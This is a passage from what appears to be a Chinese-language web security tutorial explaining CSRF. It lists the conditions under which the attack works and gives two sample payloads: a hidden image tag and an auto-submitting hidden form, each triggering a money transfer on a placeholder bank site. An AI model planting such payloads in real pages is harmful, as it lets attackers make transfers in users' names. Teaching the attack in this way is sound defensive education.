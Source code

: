 CSRF，特征很简单：**冒用用户身份，进行恶意操作**

时至今日，这项安全漏洞已经被人们剖析的很透彻了，随便Google，百度之，都会找到很多的解释。这里也用一张图来先做简单描述：

![03.png](/public/ajax-not-safe/03.png)

所以我们看到的关键条件是

```markdown
1. 采用cookie来进行用户校验

2. 登录受信任网站A，并在本地生成Cookie

3. 在不登出A的情况下，访问危险网站B
```

一般在`(4)`处`恶意网站(B)`的攻击手段如下（必须是指向`A`的地址，否则无法带上cookie）：

```html
// 1.譬如在网站内的图片资源中潜入恶意的转账操作
<img src=http://www.bank.example/transfer?toBankId=hello&amount=1000000 width='0' height='0'>

// 2.构建恶意的隐藏表单，并通过脚本提交恶意请求
<iframe style="display: none;" name="csrf-frame"></iframe>
<form method='POST' action='http://www.bank.example/transfer' target="csrf-frame" id="csrf-form">
  <input type='hidden' name='toBankId' value='hello'>
  <input type='hidden' name='amount' value='1000000'>
  <input type='submit' value='submit'>
</form>
<script>document.getElementById("csrf-form").submit()</script>
```
